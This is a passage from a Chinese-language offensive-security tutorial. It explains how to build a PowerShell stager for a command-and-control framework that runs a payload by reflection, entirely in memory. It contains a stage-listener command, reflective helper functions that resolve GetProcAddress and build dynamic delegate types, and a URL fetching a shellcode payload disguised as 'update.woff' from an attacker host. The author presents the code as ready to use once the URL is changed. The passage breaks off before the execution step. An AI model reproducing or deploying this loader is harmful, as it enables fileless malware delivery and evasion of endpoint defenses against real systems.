 ```shell
http contains "woff"
```

![p9BHek4.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-40c44eafb0ba6ab8c7d0f8c200242cf55d2477c0.png)  
经过 7000+ 个包传输，开始建立连接。  
![p9BHmtJ.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-42dab77524605e868ade0534f7512d0b3d088d8c.png)

二、Powershell Stager - 反射加载
--------------------------

### Powershell Stager 存在的问题

在上部分文章中，我们引出了一个问题，就是使用Add-Type并非完全在内存中执行，Add-Type 会调用 CSC 编译器，将文件写入硬盘中。可以通过 Process Monitor 来监视 Add-Type 的行为：  
![p9BH80O.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-cdd7d6b8a8a31274dc00ed60e8febc3b2e536a20.png)  
因此，这部分介绍使用反射加载的方式来实现真正纯内存中执行。下面首先给出完整的代码、执行效果，后再给出编写过程，主要是这部分比较复杂，一开始放出来难以消化，不懂的话慢慢反复阅读，或者直接把我给出的反射模版直接套用即可。

### 快速上手 - 完整代码 ?

首先创建一个新的stage监听器，不带加密参数，端口设定为8443。

```shell
stage-listener --url http://172.16.181.182:8443 --profile win64_stage
```

这里先给出我自己编写的最终利用代码，只要修改其中 $url 参数就可以拿去使用了，后面在根据我的思路展开分析。

```powershell
function LookupFunc {
    Param ($moduleName, $functionName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}} 
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName)) 
}

function getDelegateType {
    # 定义封装方法的参数
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void] 
    )
    # 创建程序集对象、配置访问模式、构建模块和构建自定义类型。
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    # 添加函数原型、设置构造器执行标志
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    # 创建方法、配置方法执行标志
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    # 返回实例化的委托类型
    return $type.CreateType() 
}

# shellcode
$url = "http://172.16.181.182:8443/update.woff"
```
